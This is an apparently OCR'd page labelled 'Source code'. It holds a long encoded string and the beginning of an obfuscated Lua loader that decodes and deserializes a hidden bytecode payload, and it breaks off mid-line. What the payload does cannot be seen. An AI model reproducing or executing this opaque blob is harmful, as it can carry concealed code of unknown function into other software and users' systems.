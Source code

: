 1*/ZH1jc4i0S01s!i*ZBZ1k5t*/kH0d.M*SZ*N*Is*iZZHdlk*tZ11dNd*OZS1*4mtsZi1ZDkdkZt1/8didB=14y0**ds1NTZ*kktB1)/*HZS4Sn4*0Z*1N*N*ZZB1tS1*/BH1S44t4Z01spN/NZZ1kg/*11/1dV#*SZ41*Ss*ZHByB}k*tZd0H)dscZ4N0y*ZBZi1ZRB*1dt1/SH*Jkkd4m0**ZN0NVZ*BZ110Z/*HZd1Sa4*sH*1N4NBZZB1tE/t/ZH13:4i*001s,i*BZZ1k7t*dZHNdaD*SZ4/*rsdiZZHBsk*tZ11dZd*:ZS1sW*ssZi1Z_B*kZ1k/ediSsv14S0*ias1N%Z*tZHs1r/sHZd/S:*N0Zi1iSN*ZBB1tS1*/BH1S44N4Z0Hs{N1NZZ1k}/*/s/1d4Y*Sk41*ks*iZBBB9kstZ1/H(di8Z440s**sZi1kqB*kBt1/SH*d1*1470**ZN1NYZsBZt>!&/*HZd10N4*0B*1N4SNZZB1tjHB/ZH1.-***k01s-i*BNZ1ktt*/kHdd9u*SZ*1*7s*iZk1k1k*tZ11HSd*-tS1*4sisZi1ZlBtkZt1/QP*+7a14h0**Zs1BiZ*kk1S1o/*HZ30SP4*0ZsHP0N*ZZB11B1*/ZH14J//4Z01s2i*NZBHkU/k/k/1dMO*st41*Ss*N0N1B*H*tZ11Ho0NoZS/0Asidti1Z.B*tdt1/-H*SZSH4{0**Zs1NDkkBZtH1t/*HZd14N4*0Z*1N4ZSZZB1tmH*/ZH1#n**4k01s!i*ZkZ1ktt*/kdBdU-*SZ***as*iZB1k/k*tZ11Hhd*4iS1sq*isZi1Z?B*kZ1B/adiSB^1440*s1s1NIZ*BZiB1v/*HZdHS!4i0Zs4ZHN*ZZB1d01*/BH13IS*41N1s=i*NZ1dk>ts1ZHHB05*SZ41iss*iZN11.1itZ11HQri&Z4N0%siN4i1ZhB*1Zt1/vH*4ZSB4C0**Zs/N#ZNBZtH1B/*HZd1SN4*0Z*1ZJZ1ZZB1tw1*/ZS42b4i0s01s(i*NdZ1krt*/k-?dG&*SZ0**bs*iZB1B/k*tZ11H^d*4BS1*4sSsZi/ZfkskZt1/Wdi}*?1440*sks1N^Z*BZt41o/*HZdHSy4s0ZsHU0N*ZZB11B1*/ZH14u*/4Z01swi*NZkHkw14d//1,t_*iV41*Ss*iZN1B*H*tZ11H;01+ZS/0F*ZBZi1Z,B*l0t1/SH*Okkd4X0**ZN0NbZ*BZ110Z/*HZd1SK4*sH*1N4BSZZB1tF/t/ZH1aQ4i4101s_i*BZZ1kot*dZHkd}c*SZ*H*<sdiZZHBHk*tZ11dZd*6ZS1sJsSsZi1ZzB*kZ/H/VdidH;14S0*iSs1NaZ*tZHs17/sHZd/S5*i0Zs4dBN*ZBB17*1*/BH1uuS*41N1s!i*NZHRk2ts1ZH70Ow*SZ41Bts*iBN1k4*NtZ11HySBqZS10qN*Nki1ZAB*1kt1/tH*KkS-4q0**ZN1N<Z*BZ/11B/*HZd1044*0t*1N4ZBZZB1t}1t/ZH1fE0**001svi*NZZ11it*/kH*dI:*SZ00*Ds*iZZH00k*tZ11dBd*-ZS1spk4sZi1Z7B*kZ/B/mLk2k214Y0*kZs1NSZ*k0k11*S*HZd1SLZ*0Z*/i<NZ1ZB1ty1**HH1cSS*0k/dsTi*NZk0kXt*1Zd14*q*SZ41*Fs*ZHN1k4tjtZ11H{Gt5ZS10%sisHi1ZpB*1Zt1/aH*4Z4B4I0**ZNBN!ZdBZtH1k/*HZd14Z4*0Z*1ZoZ0ZZB1t+1*/ZdSw30k0H01sXi*H4Z1kSt*/N/1d***SZ41*_tHiZN/BJkZdZ11Hpd*NHS10S**ikJdZ}B*kZHS/jH*dZ01*40**Zs1Z/Z*k0k1/4HkHZd1S.**0Z*1iMk*kSB1t;1*dsH1w0S*0k*Nsyi*NZB0kCt*1Zd1diG*SZ41*?s*ZHN1k41StZ11HQdtPZS10CsiN1i1ZfB*t+t1/_H*SZ4i4u0**Zs1NTksBZtH/k/*HBd14S4*0Z*1N4Z*ZZBHt<HS/ZH1.-S*4t01sXi*NkZ1kSt*/kNdd>J*SZ*s*Vs*iZB1HHk*tZ11Hvd*gkS1sisisZi1Z{TdkZt//#HddZSliF0**Zs1HtZ*BBk11*S*HZd1Swkd0Z*/i#Zi4tB1t%1*HdH1{CS**ZHNsJi*NZZ1k#/k1ZHHdsT*SZ41sNs*iZN1k4kBtZ11H{S*wZS10XN*iHi1ZFB*kkt1/tH*qk404o0**ZN*NKZ*BZ11/0/*HZd1SY4*0/*1iHZ/ZZkstm*d/ZH/vTS*4Z*jBXi*NZZ14tt*1B/1f4kNSZ41*!NBiZN1Bj/*/k11Hcd*nkS10t**ikZ*Z2B*kZ/1/CH*dZ014B0**Zs1N4Z*Btk1/4/tHZd1S}4t0Z*1ifB*BBB1tp1*/ZH14iS*0ks*s_i*NZB0kUt*1ZHHB0(*SZ41sBs*iZN1tWi/tZ11H%d*OZ0i0}ikiHi1Z5B**1t1/SH*A0K14*N**Zs1NY4ZBZk/16HiZtd1S^4**d*1i2N*kZ*Ntc1*/ZH1YY0k4Z*Hisi*NZZ1tNt*1Z/1(4StSZ41*(N*iZN1BI/*1i11Hqd*44S10t**ikZZZRB*kZ/*/;H*dZ414d0**Zs1N,Z*kZk11H/1HZ_uSL1Z0Z*/iJN*ZZkfdK1*/ZH1k*S*4B01i4hNNZZ1kF/B1Z/1dF0*0k41*<s*Z4N1Btk*1k/kH,d*wZ010z**sZB1BtB*kZt1HkH*dt(104***Zs1N(ZtBZk11,d*Pad1S=4*0Z*1ZiN*BkkZt_1*/Zd0ujS*4Z*HN*i*NZZ1kZt*1Z/1S liSZ41*2s*iZB/B>tit111HSd*SBS10L**ikidZ}BikZ14/7H*dZ(10t0**Zs1N4Z*BBk1/4NNHZd1S90/0Z*1ihB*sSB1tI1*/ZH14*S**H0ds_i*NZ**kJts1ZHNdG;ZsZ41*as*4%N1BSk*1kidH8d*zZ000{**sZZ14tB*kZt1/YH*SH)1040t*Zs1N7BtBZk11pHir0d1SV4*sZ*1i2N*tZk1t_1*/ZS;=DSd4Z*Hs0i*NZZ1tZt*1Z/1SaS*SZ41*&s*iZZdBDt41d11Hdd*1oS10S**sZi1Z*/*kZt1/cB1dZJ/4m*iHts1N2Z*t/k11Q/*SZSHSP4*0ZN)i_NdZZkHt/1*/ZH14_S*4Z01ZAZUNZZ1kj/Z1Z/ddpSiS141*;s*idN1Blk*/Z/0HLd*+ZS10miksZNHZ1B*kZt1/NH*dZa104/N*Zs1N&B/BZk11ud**id1Sr4*0Z*1N1N*kHBdt(1*/ZkB+}Ss4Z*Ns-iZtZZ1klt*Zs/1dS=*S1i1*gs*iZssBXkstZ/HZ0d*oZS1*N**sZi1k6,1kZt1/QH*dZ044C*ii*s1N^Z*kdk11m/*dk7>Sb4*0Zi1iCN*ZZ111/1*/ZH1S1S*0001i4NBNZZ1k;111Z/1dn4*4141*Gs*iZN1Bkk*1k/BHMdsRZ0s0)**sZZ1tBB*kBt1/SH*}/+14is/*Zs1Na*/BZk/1}/sHZ<Is_4*0Z*14BN*ZBB1t*2*/ZH1y%Hi4Z0/sANiStZ1ket*HL/1da;*0Z*Z*Js*iZN1B7kHtZH1Hid*EZS10E**isi1B4BZkZtH/fd/dZ)14cs*i*s1N4Z*Bkk1/s/*HZSsSI4*0Z*HirNiZZk41*1*/ZH1/4S*4B01sSi*N111k_t*1ZkHdY,sSZ0wZps*iZN1iBk*tB11d4BN&ZS10piBsZi1Z71*1kt1/RH*S*614t0*ski0NnZ*BZ1118/*HZ414B4*0Z*1N1N*ZtB114/4/ZH1;&St4Z01sfZ*ZBZ1kJt*1Z/1Siw*4k*S*Qs*iZZ0BIk*tZ/HZ0d*:ZS1*B**sZi1k%d4kZt1/<H*dZSZ4msk*Bs1N6Z*Z1k11S/*Htd1S*i*0Z*1iViZZZB/tW/iNtH1zyS**S01sgi*BZ1skrt*1Z/1d2SLSZ0k1Ns*Z0N1Z*k*tB11Hhd*e1s10y**sZiTZKBskZ1HN0H*dZ!10N0**Zs1B)d1BZk11m/*HZ44SK0i*J*1i?N*BdB1tU1*Hk.B>FS*4Zs1sai*NZt1kit*1Z/1d1e*4041s4i}iZN1Byt1tZ11HWS*_HS10L**sZi1Z1B*tk1i/QHsdZ4s4%0**ZN1kBZ*BBk11S/*d*d1Sit/0Z*/i9iSZZB/t#1*/ZdT*(S*4Z010/i*NBZ1k*d*1Z/1dUdZSZ4/*6ii)tN1Bfk*//11H6d*0Z0H0=**sZNZZ=BdkZ1HHBH*dZ_1*D0**Zs1k_Z1BZk112HQHZddSG0is4*1iqN*ZdB1tW1*dZddolS*4Z01s#ZkNZBHk1t*1Z/1dNw*SZ41s4dNiZN1B+tttZ11H)3iktS10S**sdi1Z5B*tksd/WHidZ0S4 0**Zs1NdZ*BZk114/*HZd1SF?H0Z*1i!NsZZB1t+1*/ZH1Wb");local d=r.lezArILZ;r.cjrUYBql(function()r.bfyTvOPA()d=d+r.xoETUfUM end)local function e(n,e)if e then return d end;d=n+d;end local n,d,a=h(r.lezArILZ,h,e,f,r.cEFvabnM);local function k()local d,n=r.cEFvabnM(f,e(r.xoETUfUM,r.cLvUEsgA),e(r.ceUBBxjV,r.jrbsaepk)+r.qzVGlMtf);e(r.qzVGlMtf);return(n*r.obfuHPga)+d;end;local b=true;local b=r.lezArILZ local function _()local e=d();local d=d();local s=r.xoETUfUM;local t=(n(d,r.xoETUfUM,r.RVdXXZCD)*(r.qzVGlMtf^r.csKUxm_A))+e;local e=n(d,r.xeJSgldf,r.mQsTyFmC);local d=((-r.xoETUfUM)^n(d,r.csKUxm_A));if(e==r.lezArILZ)then if(t==b)then return d*r.lezArILZ;else e=r.xoETUfUM;s=r.lezArILZ;end;elseif(e==r.iIQUgtpE)then return(t==r.lezArILZ)and(d*(r.xoETUfUM/r.lezArILZ))or(d*(r.lezArILZ/r.lezArILZ));end;return r.VPlWCEvi(d,e-r.LxHXQEha)*(s+(t/(r.qzVGlMtf^r.jaRKEurf)));end;local c=d;local function y(d)local n;if(not d)then d=c();if(d==r.lezArILZ)then return'';end;end;n=r.opPyeHRT(f,e(r.xoETUfUM,r.cLvUEsgA),e(r.ceUBBxjV,r.jrbsaepk)+d-r.xoETUfUM);e(d)local e=""for d=(r.xoETUfUM+b),#n do e=e..r.opPyeHRT(n,d,d)end return e;end;local z=#r.yYtxkjmg(u('\49.\48'))~=r.xoETUfUM local e=d;local function te(...)return{...},r.r_QjjhSn('#',...)end local function de()local c={};local b={};local e={};local u={c,b,nil,e};local e=d()local f={}for t=r.xoETUfUM,e do local n=a();local e;if(n==r.xoETUfUM)then e=(a()~=#{});elseif(n==r.lezArILZ)then local d=_();if z and r.gUbQlTiU(r.yYtxkjmg(d),'.(\48+)$')then